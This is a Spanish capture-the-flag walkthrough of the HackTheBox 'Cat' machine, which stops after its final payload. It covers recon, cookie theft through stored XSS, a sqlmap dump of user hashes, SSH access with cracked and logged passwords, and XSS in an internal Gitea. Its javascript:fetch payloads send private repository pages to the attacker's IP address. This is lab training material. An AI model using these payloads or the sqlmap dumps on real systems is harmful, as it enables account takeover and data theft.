# Tutorial de Cat de HackTheBox en Español



Empezaremos la máquina escaneando todos los puertos por TCP.

```
nmap -p- -sS -n -Pn --min-rate 5000 10.129.231.253

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Vamos a comprobar qué servicios están corriendo en los puertos que nos acaba de reportar nmap (`22` y `80`).

```
nmap -sVC -p 22,80 10.129.231.253

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://cat.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como tenemos un servicio `http` en el puerto `80`, vamos a analizar qué tecnologías está empleando.

```
whatweb 10.129.231.253

http://10.129.231.253 [301 Moved Permanently] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.231.253], RedirectLocation[http://cat.htb/], Title[301 Moved Permanently]
ERROR Opening: http://cat.htb/ - no address for cat.htb
```

Nos intenta redirigir a `http://cat.htb`, lo que da un error, puesto que nuestra máquina no sabe a qué dirección resolver ese nombre. Para solucionarlo incluiremos la línea `<ip-víctima> cat.htb` en el archivo `/etc/hosts`.

```
echo "10.129.231.253 cat.htb" >> /etc/hosts
```

Ahora ya debería poder resolver y no dar error.

```
whatweb cat.htb

http://cat.htb [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.231.253], Title[Best Cat Competition]
```

Después de un reconocimiento básico, vamos a entrar en la página web en busca de vulnerabilidades.



Hay una página de inicio de sesión, así que vamos a registrarnos e iniciar sesión para poder ver el contenido restringido a usuarios.


En la pestaña `contest`, cuando damos de alta un gato, nos dice que este va a ser revisado,


lo que significa que alguien va a ver nuestro input. Si este no está bien sanitizado y se muestra en un navegador, podríamos inyectar código JavaScript dando lugar a una vulnerabilidad `XSS`.

Tras intentar sin éxito inyectar un payload `XSS` en los distintos campos de `contest`, podemos intentar inyectarlo a través del inicio de sesión, ya que probablemente al administrador también le aparezca nuestro nombre de usuario o correo electrónico.

El payload que utilizaremos será el siguiente.

```

```

---

**¿Que hace este payload?**

*Cuando al administrador de la página web se le envíen nuestros datos, este payload viajará como el nombre de usuario.*

*Si no está bien sanitizado, en vez de mostrar `` como texto plano, el navegador podría interpretarlo como `HTML` e intentar cargar una imagen ubicada en '#'. Sin embargo, como '#' no es una ruta válida y no hay ningún archivo de imagen con ese nombre, se producirá un error, lo que activará el evento `onerror`, que establecerá como ubicación de la imagen la dirección de nuestra máquina con sus cookies como ruta.*

*De esta manera el navegador hara una solicitud a nuestra direccion "enviándonos" la cookie de sesión del administrador.*

---

Nos registramos y logueamos con el payload como `username`.





Antes de dar de alta al gato, nos ponemos en escucha por el puerto 80 con netcat para poder leer la petición con la cookie.

```
nc -lnvp 80
```



Tras dar de alta al gato nos llega la petición con la cookie: `PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr`.

```
GET /PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr HTTP/1.1
Host: 10.10.14.191
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://cat.htb/
Priority: u=5, i
```

Al meterla en el navegador y recargar la página, podemos acceder a una nueva pestaña `admin`.



Dentro de `admin` hay una lista de gatos registrados y nos da la opción de aceptarlos o rechazarlos. Vamos a interceptar con burpsuite la opción de aceptar.



Es una solicitud por `POST` con los campos `catName` y `catId`. Probablemente estará actualizando o dando de alta estos gatos en una base de datos por lo que podríamos probar una inyección sql con `sqlmap`.

Para listar las tablas:

```
sqlmap -u "http://cat.htb/accept_cat.php" --cookie 'PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr' --data 'catName=a&catId=1' --tables --random-agent --level 5 --risk 3 --threads 10
```

Para sacar toda la tabla `users`:

```
sqlmap -u "http://cat.htb/accept_cat.php" --cookie 'PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr' --data 'catName=a&catId=1' -T users --dump --random-agent --level 5 --risk 3 --threads 10
```

```
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
| user_id | email                         | password                         | username                                                                  |
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f | axel                                                                      |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c | rosa                                                                      |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad | robert                                                                    |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe | fabian                                                                    |
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86 | jerryson                                                                  |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8 | larry                                                                     |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6   | royer                                                                     |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a | peter                                                                     |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565 | angel                                                                     |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad | jobert                                                                    |
| 11      | test@test.com                 | 098f6bcd4621d373cade4e832627b4f6 |  |
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
```

Vamos a intentar romper algún hash de los que hemos obtenido.



El del usuario `rosa` figura en la base de datos de [crackstation](https://crackstation.net/). Nos intentaremos conectar por `SSH` a la máquina víctima con estas credenciales.

```
ssh rosa@cat.htb
rosa@cat.htb's password: soyunaprincesarosa
```

Hemos podido autenticarnos como `rosa`. Para escalar privilegios, utilizaremos la herramienta [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20250301-c97fb02a).

La subiremos a la máquina con un servidor `http` con python.

```
python3 -m http.server 80
```

Desde la máquina víctima:

```
wget http://10.10.14.191/linpeas.sh
chmod +x linpeas.sh
```

De entre las secciones que nos reporta, esta nos llama la atención especialmente, ya que podemos leer los logs de apache, donde pueden estar expuestas credenciales de inicio de sesión u otros datos sensibles que envian los usuarios.

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
```

```
/var/log/apache2/access.log
```

Dentro del archivo encontramos la línea:

```
"GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1"
```

Nos autenticaremos con estas nuevas credenciales:

```
su axel
Password: aNdZwgC4tI9gnVXv_e3Q
```

Ya podemos leer la flag de `user`:

```
cd
cat user.txt
```

Para seguir escalando privilegios, vamos a listar qué servicios en red están corriendo internamente con `netstat`.

```
netstat -l

tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN
```

Hay un servicio en el puerto `3000`, vamos a ver de que se trata, por ejemplo, enviando cualquier cadena con `netcat`.

```
echo "test" | nc localhost 3000

HTTP/1.1 400 Bad Request
Content-Type: text/plain; charset=utf-8
Connection: close

400 Bad Request
```

Se trata de un servidor `http`. Para poder ver la página más cómodamente, vamos a crear un túnel para que todas las comunicaciones que pasen por nuestro puerto `3000` se envíen a su puerto `3000` y viceversa.

```
ssh rosa@cat.htb -L 3000:localhost:3000
```

Al entrar a través del navegador en el sitio web, nos damos cuenta de que es `gitea`, un servicio para gestionar repositorios de git de código abierto.



Si nos fijamos abajo a la izquierda en la página podemos ver la versión:


Buscando en internet acerca de esa versión y si tiene problemas de seguridad damos con [esta vulnerabilidad](https://www.exploit-db.com/exploits/52077).

Es, de nuevo, un `xss`. Esta vez se acontece en el campo de la descripción.

Para poder exploitar esta vulnerabilidad necesitamos estar autenticados. Para ello intentaremos utilizar las credenciales de `axel`.



Ahora nos ponemos en escucha con netcat por el puerto 80 para recibir las solicitudes del xss

```
nc -lnvp 80
```

y enviamos un payload para que al hacer click en la descripción nos envíe el contenido de `/administrator`. De esta forma podremos ver los repositorios del usuario `Administrador` (si es que este hace click en la descripción).

El payload que introduciremos en la descripción será el siguiente.

```html
<a href="javascript:fetch('http://localhost:3000/administrator').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

Creamos el repositorio.



Y le enviamos el link por mail al administrador:

```
echo "http://localhost:3000/axel/xss" | sendmail administrator@cat.htb

/home/axel/dead.letter... Saved message in /home/axel/dead.letter
```

Como da error al tratar de enviarselo a `administrator@cat.htb`, se lo enviaremos a un usuario que si exista en la máquina local.

```
echo "http://localhost:3000/axel/xss" | sendmail jobert@cat.htb
```

Si esperamos un momento, nos llega la solicitud con el contenido de `/administrator`.

La decodificamos:

```
node

> const body = '<encoded-body>'
> console.log(decodeURIComponent(body))
```

Y nos muestra los repositorios de `Administrator`. El único del que dispone es `Employee-management`.

```html
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
    ...
</head>
<body hx-headers='{"x-csrf-token": "3al9Kr21OmCbGJiIh3zBYEsUqMc6MTc0MjQzMTQ4NDc4MTIxODQ2Ng"}' hx-swap="outerHTML" hx-ext="morph" hx-push-url="false">
    ...
    <a class="text primary name" href="/administrator/Employee-management">Employee-management</a>
    <span class="label-list">
        <span class="ui basic label">Private</span>
    </span>
    ...
	<footer class="page-footer" role="group" aria-label="Footer">
        ...
    </footer>
    ...
</body>
</html>
```

Vamos ahora a listar los archivos que tiene el repositorio `Employee-management`.

Nos ponemos en escucha:

```
nc -lnvp 80
```

Y editamos la descripción del repositorio para poner la ruta `/administrator/Employee-management`.

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

Volvemos a mandarle el mismo mail al usuario `jobert@cat.htb`.

Cuando nos llega repetimos el proceso para decodificarlo.

```
node

> const body = '<encoded-body>'
> console.log(decodeURIComponent(body))
```

```html
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
    ...
</head>
<body>
    ...
	<table id="repo-files-table" class="ui single line table tw-mt-0" >
	    <tbody>
			<tr data-entryname="chart.min.js" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/chart.min.js" title="chart.min.js">chart.min.js</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="dashboard.php" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/dashboard.php" title="dashboard.php">dashboard.php</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="index.php" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/index.php" title="index.php">index.php</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="logout.php" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/logout.php" title="logout.php">logout.php</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="README.md" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/README.md" title="README.md">README.md</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/7fa272fd5c07320c932584e150717b4829a0d0b3" class="default-link muted">Add README.md</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T04:04:08Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 04:04:08 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="style.css" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/style.css" title="style.css">style.css</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
	<footer class="page-footer" role="group" aria-label="Footer">
        ...
    </footer>
	...
</body>
</html>
```

De todos los archivos expluestos vamos a por ejemplo leer el `index.php`. Para ello podemos acceder con la ruta `/administrator/Employee-management/src/branch/main/index.php` o podemos acceder a el en formato `raw` con la ruta `/administrator/Employee-management/raw/branch/main/index.php` para ahorrarnos tiempo de buscar el código en el `html`.

El payload se verá de la siguiente manera:

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

